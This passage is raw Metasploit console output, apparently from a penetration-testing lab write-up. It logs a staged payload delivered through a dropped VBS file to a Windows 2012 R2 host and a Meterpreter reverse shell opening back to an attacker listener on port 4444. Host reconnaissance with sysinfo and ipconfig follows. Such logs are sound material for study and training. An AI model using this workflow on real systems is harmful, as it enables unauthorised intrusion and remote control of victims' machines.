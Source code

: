 ```
[*] Payload request received: /VYgTHk
[*] Sending stage (175174 bytes) to 10.0.28.68
[!] Tried to delete %TEMP%\aUCZerMwHf.vbs, unknown result
[*] Meterpreter session 1 opened (10.10.16.3:4444 -> 10.0.28.68:49220) at 2023-03-08 19:33:07 +0530
[*] Server stopped.

meterpreter > 

```

```
meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 12
============
Name         : AWS PV Network Device #0
Hardware MAC : 06:fc:b4:e1:04:42
MTU          : 9001
IPv4 Address : 10.0.28.68
IPv4 Netmask : 255.255.240.0
IPv6 Address : fe80::5ca0:b12c:9e32:6789
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 14
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a00:1c44
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

```
